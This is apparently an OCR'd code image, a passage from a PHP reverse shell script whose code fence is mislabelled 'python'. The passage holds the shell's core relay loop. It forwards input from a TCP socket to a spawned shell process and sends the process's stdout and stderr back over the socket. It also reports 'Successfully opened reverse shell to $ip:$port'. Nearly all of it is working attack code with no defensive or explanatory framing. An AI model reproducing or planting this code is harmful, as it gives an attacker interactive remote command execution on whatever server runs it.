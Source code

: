 ```python

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
```